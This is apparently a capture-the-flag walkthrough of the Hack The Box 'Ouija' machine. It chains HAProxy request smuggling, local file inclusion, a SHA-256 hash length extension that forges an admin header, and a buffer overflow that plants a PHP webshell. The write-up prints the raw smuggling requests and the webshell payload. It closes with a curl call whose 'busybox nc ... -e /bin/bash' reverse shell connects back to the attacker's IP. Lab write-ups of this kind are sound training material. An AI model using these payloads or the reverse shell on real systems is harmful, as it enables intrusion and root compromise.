


We start the machine with the classic nmap scan:
```bash
nmap -sC -sV -p- --min-rate=3500 10.10.11.244
```
output:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6f:f2:b4:ed:1a:91:8d:6e:c9:10:51:71:d5:7c:49:bb (ECDSA)
|_  256 df:dd:bc:dc:57:0d:98:af:0f:88:2f:73:33:48:62:e8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Ouija
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Port 80 http

There aren't too many ports open so i started enumerating the services running on port 80.<br>
i got a redirect on ouija.htb so i added it to etc hosts as always:
```bash
echo '10.10.11.244	ouija.htb' >> /etc/hosts
```
now we can visit the page and see this:
	

	
the site looks pretty static, the only interesting thing is a subdomain that we can find by examinating the source code of the index<br>
In fact we can see a link to a gitea subdomain:
	

	

# Leila

## Gitea

Now we can take a look at some repositories that are hosted on this private gitea server.<br>
To do so we need to register an account.<br>
After logging in we can go in explore tab and see this repositories<br>
	

	
We can see the repo for user leila:
	

	
We can see that is a repository for setting up a webserver.<br>
This is very important for us because we can do a bit of information disclosure on the versions, in fact we can see that it is using:<br>

- PHP8.2
- Apache version 2.4.52
- HA-Proxy version 2.2.16
and he uses those paths:
- 000-default.conf pointing to /var/www/html
- /var/www/html

## HA Proxy - Request Smugling

We can now start enumrating the other services knowing the version that they maybe running.<br>
So i runned a vhost scanner to find more subdomains.
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://ouija.htb/ -H "Host:FUZZ.ouija.htb"  --hw 961
```
output:
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000019:   403        3 L      8 W        93 Ch       "dev"     
```
we can see another subdomain that i added to /etc/hosts as i did before.<br>
Now i started searching for some exploits about the versions i found above, we can't do much about php8.* or apache 2.4.5*
but i've never heared of HAproxy so i googled it with "POC" or "Exploit" keywords.<br>
Online i found this [reporitory](https://github.com/alexOarga/CVE-2021-40346) that has a great explanation of http smugling and a
usefull POC to try exploit a HAproxy service.<br>
We can go on burpsuite and try to fuzz some request.<br>
The service is running on the default endpoint http://ouija.htb/, but in order to to exploit the vulnerability i need to find some
restriced access.<br>
	

	
We can see that we can't access .dev subdomain...<br>
Maybe the vulnerability is here.<br>
So i tried to craft my payload in Burpsuite:
	

	
!But before sending the request we first need to update a repeater option that update automatically our content length<br>
The whole point of the exploit is about the length of the first request being truncated by an integer overflow.<br>
	

	
Now we have our payload ready and we can see what is behind this Proxy with this request (\n\r are important):
```bash
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 40


GET http://dev.ouija.htb/ HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb

  
```
By submitting a bunch of times the request we can see that we have a 200 response, initially it seems just the index.html, but if we scroll to the bottom of the first response we can see the second response that bypassed the proxy restriction.<br>
So we can save the output of the second request to and html file and view it on our local machine:
	

	
So i copied the html and saved over to a file and opened it with a browser:
	

	
We can see a bunch of files also from the source code:
	

	
We have:
- app.js
- editor.php (with a ?file param to open files)
- init.sh


## LFI

So what i tried to do is open the files with the editor using the HAproxy bypass:
```bash
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 62


GET http://dev.ouija.htb/editor.php?file=app.js HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb


```
With this request we could get app.js<br>
!The content length is the length of the line with GET (GET http://dev.ouija.htb/editor.php?file=app.js HTTP/1.1) + 2 (\r\n) from above. U can easily calculate it with burpsuite by selecting the string!<br>
This is the content of the app.js:
```js
var express = require('express');
var app = express();
var crt = require('crypto');
var b85 = require('base85');
var fs = require('fs');
const key = process.env.k;

app.listen(3000, ()=>{ console.log("listening @ 3000"); });

function d(b){
    s1=(Buffer.from(b, 'base64')).toString('utf-8');
    s2=(Buffer.from(s1.toLowerCase(), 'hex'));
    return s2;
}
function generate_cookies(identification){
    var sha256=crt.createHash('sha256');
    wrap = sha256.update(key);
    wrap = sha256.update(identification);
    hash=sha256.digest('hex');
    return(hash);
}
function verify_cookies(identification, rhash){
    if( ((generate_cookies(d(identification)))) === rhash){
        return 0;
    }else{return 1;}
}
function ensure_auth(q, r) {
    if(!q.headers['ihash']) {
        r.json("ihash header is missing");
    }
    else if (!q.headers['identification']) {
        r.json("identification header is missing");
    }

    if(verify_cookies(q.headers['identification'], q.headers['ihash']) != 0) {
        r.json("Invalid Token");
    }
    else if (!(d(q.headers['identification']).includes("::admin:True"))) {
        r.json("Insufficient Privileges");
    }
}

app.get("/login", (q,r,n) => {
    if(!q.query.uname || !q.query.upass){
        r.json({"message":"uname and upass are required"});
    }else{
        if(!q.query.uname || !q.query.upass){
            r.json({"message":"uname && upass are required"});
        }else{
            r.json({"message":"disabled (under dev)"});
        }
    }
});
app.get("/register", (q,r,n) => {r.json({"message":"__disabled__"});});
app.get("/users", (q,r,n) => {
    ensure_auth(q, r);
    r.json({"message":"Database unavailable"});
});
app.get("/file/get",(q,r,n) => {
    ensure_auth(q, r);
    if(!q.query.file){
        r.json({"message":"?file= i required"});
    }else{
        let file = q.query.file;
        if(file.startsWith("/") || file.includes('..') || file.includes("../")){
            r.json({"message":"Action not allowed"});
        }else{
            fs.readFile(file, 'utf8', (e,d)=>{
                if(e) {
                    r.json({"message":e});
                }else{
                    r.json({"message":d});
                }
            });
        }
    }
});
app.get("/file/upload", (q,r,n) =>{r.json({"message":"Disabled for security reasons"});});
app.get("/*", (q,r,n) => {r.json("200 not found , redirect to .");});
```
I did also get the init.sh file with this request:
```bash
#!/bin/bash

echo "$(date) api config starts" >>
mkdir -p .config/bin .config/local .config/share /var/log/zapi
export k=$(cat /opt/auth/api.key)
export botauth_id="bot1:bot"
export hash="4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1"
ln -s /proc .config/bin/process_informations
echo "$(date) api config done" >> /var/log/zapi/api.log

exit 1
```
Ok, we have a app.js running on the other port that we saw open.<br>
The provided Node.js application is a simple web server using Express.<br>
It has several routes, including /login, /register, /users, /file/get, and /file/upload.<br>
The application implements user authentication through cookies and has some basic security measures.<br>
The /login and /register routes are disabled, and the /users route requires admin privileges.<br>
The /file/get route allows authenticated users to read files, with basic security checks to prevent unauthorized access.<br>
The /file/upload route is disabled for security reasons.<br>
The application is in development and may have additional features under construction.<br>

## Hash Extension attack

The vulnerable part of the js script is actually the authentication function, in fact it uses a concatenation hash that is vulnerable to hash extension.<br>
In fact we could log with the user and hash that we found inside the init.sh script but we wouldn't be able to get files from the server due to low privilege.<br>
In order to authenitcate with an admin we need to append `::admin:True` to the `bot1:bot` string, but doing so in plain text would change the hash and the check will fail.<br>
But we can leverage an exploit named Hash Extension that is better explained [here](https://book.hacktricks.xyz/crypto-and-stego/hash-length-extension-attack).<br>
To do so i downloaded a script from github, you can find it [here](https://github.com/iagox86/hash_extender)<br>
```bash
git clone https://github.com/iagox86/hash_extender
cd hash_extender
sudo make CFLAGS="-w" install #to skip deprecation warnings
```
Now to craft the attack we actually need to brute force the key length so i generated a bunch of payloads like that:
```bash

```
then i tried them in the following request:
```bash
hash_extender -s 4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1 -d bot1:bot -a ::admin:True --secret-min=4 --secret-max=25
```
output:
```bash
Type: sha256
Secret length: 4
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f74800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000603a3a61646d696e3a54727565

Type: sha256
Secret length: 5
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f748000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000683a3a61646d696e3a54727565

Type: sha256
Secret length: 6
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f7480000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000703a3a61646d696e3a54727565
[...]
```
I tried them in a request like that (the identification string need to be base64 encoded):
```bash
GET /file/get?file=init.sh HTTP/1.1
host: ouija.htb:3000
ihash: 14be2f4a24f8[REDACTED]089533c1830c0b
identification: NjI2Zjc0MzEzYTY[REDACTED]TZlM2E1NDcyNzU2NQ==
```
The request is succesfull, so we can try to get some more interesting files.<br>
In fact if we read the init.sh we can see that they are creating a soft link:
```bash
ln -s /proc .config/bin/process_informations
```
by knowing this we can get the content of the environment file of nodejs with this request:
    

    
from this post [here](https://xen0vas.github.io/Exploiting-the-LFI-vulnerability-using-the-proc-self-stat-method/) we can see how to leverage lfi via `/proc/<pid>/` or `/proc/status`.<br>
Now we can access all the filesystem from /proc/self/root/  <-- from here we have our root folder.<br>
By knowing the user we can try to search her ssh keys.<br>
    

    

We now have the ssh key for leila user!!<br>

# Root

the root part was the most difficult for this machine, in fact it took me a bunch of hours for testing and fuzzing for what i found.<br>
In fact if we enumerate the system we get pretty much nothing, except for a bunch of ports open and a /development folder in /:
    

    

    
now that we know that i tried to forward some ports on my local machine as follow:
```bash
ssh -i leila_rsa leila@ouija.htb -L 9999:127.0.0.1:9999
```
by doing so i finally found that the port 9999 is running an interesting webserver:
    

    
The site has a login page, i tried to brute force some credential but i wasn't shure about that road.<br>

# Buffer Overflow

So i started looking at the /development folder that we found previously.<br>
by doing:
```bash
ls -la /development/server-management_system_id_0/
```
outptu:
```bash
total 36
drwxr-xr-x 5 root root 4096 Dec  6 21:12 .
drwxr-xr-x 7 root root 4096 Jun 24 19:35 ..
drwxr-xr-x 2 root root 4096 Jun 20 19:12 core
drwxr-xr-x 2 root root 4096 Jun 24 20:01 .debug
drwxr-xr-x 2 root root 4096 Jun 20 17:13 img
-rw-r--r-- 1 root root 3084 Jun 25 20:10 index.php
-rw-r--r-- 1 root root  395 Jun 20 16:56 main.js
-rw-r--r-- 1 root root   40 Jun 20 19:36 README.md
-rw-r--r-- 1 root root 1386 Jun 20 17:29 style.css
```
it is the only interesting folder, inside i have a what seems to be the webserver running on port 9999, if we cat the index.php we have the confirmation:
```bash
cat /development/server-management_system_id_0/index.php
```
output:
```bash
<?php
        class info__index__wellcom{
                public static $__VERSION = 0;
                public static $__DEBUG = 1;
                public $__DESCRIPTION = "testing login";
                public static $__IS_ATTACHED_TO_SYS = 1;
                public static $__NAME = "WBMS root";
                public $__OWNER = "WBMS ouija";
                public $__PRODUCT_ID = 0;
                private static $__DBCREDS = "0:0@/0";
                private static $__PPD = "linux/php";
        }
?>
<?php
        if(info__index__wellcom::$__DEBUG){
                include '../utils/debug.php';
                init_debug();
        }
?>
<?php
        if(isset($_POST['username']) && isset($_POST['password'])){
//              system("echo ".$_POST['username']." > /tmp/LOG");
                if(say_lverifier($_POST['username'], $_POST['password'])){
                        session_start();
                        $_SESSION['username'] = $_POST['username'];
                        $_SESSION['IS_USER_'] = "yes";
                        $_SESSION['__HASH__'] = md5($_POST['username'] . "::" . $_POST['password']);
                        header('Location: /core/index.php');
                }else{
                        echo "<script>alert('invalid credentials')</alert>";
                }
        }
?>

[...] # some terrible css here =)

<form method="post" action="index.php">
<div class="box">
<h1>Welcom User</h1>
<h2>WBMS inc</h2>
<input type="username" name="username" value="" class="email" />
<input type="password" name="password" value="" class="email" />
<input type="submit" <div class="btn"></div> version 0.1
</div> <!-- End Box -->
</form>

<p>Forgot your password? <br> contact your admin <br> OR request password reset from technical team<br> OR access your device physically and reset your password</p>
<script src="./main.js" type="text/javascript"></script>
<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script>
```
The only vulnerable thing in this code is this function `say_lverifier()` and it's imported locally.<br>
To find the exploit i tried to fuzz by sending a large number, and eventually that created a directory in my system with the name that i sended at the end around 780 chars.<br>
That means i found a buffer overflow that can let me write files in directory, now i need to adjust the offset and payload type to load a webshell inside the directory of the webserver running as root<br>
Eventually i found out that the offset is around 715 bytes, i used `/` for comment in case some of them ends up in php.<br>
Thas the payload i used:
```python
a = '/tmp/bf_overflow/<?=`$_GET[0]`?>/../../..//development/server-management_system_id_0/bf_overflow.php'  #payload that let me pollute the log file and write the content that i want in any directory
#number of '/' change in relation to your payload.
payload = '/'*700 + a  + 'A'*64738   #write the payload starting from the buffer overflow getting to the end of the buffer, writing the payload and eventually fill the rest with buffer 
```
To create the payload a bit faster from terminal we can also write:
```python
python3 -c "a = '/tmp/bf_overflow/<?=\`\$_GET[0]\`?>/../../..//development/server-management_system_id_0/bf_overflow.php';payload = '/'*700 + a  + 'A'*64738;print(payload)" > payload.txt
```
Finally in order to exploit the target we need to create a directory in /tmp with inside it another directory named as out php command:
```bash
#/bin/bash

cd /tmp
mkdir bf_overflow
cd bf_overflow
mkdir '<?=`$_GET[0]`?>'
```
once we have done that we can send the payload to the web application using burpsuite:
    

    
Now if we check the files of the webserver we can see that there is the file that we created via this buffer overlfow:
    

    
Now we just need to start the listener on our local machine and send the payload on the webshell:
```bash
pwncat-cs -lp 4444  #on our machine, i used pwncat-cs as listener
```
and send the payload using curl:
```bash
curl 'http://127.0.0.1:9999/bf_overflow.php?0=busybox%20nc%2010.10.16.103%204444%20-e%20/bin/bash' 
```
Now we have our root shell!!
    

    


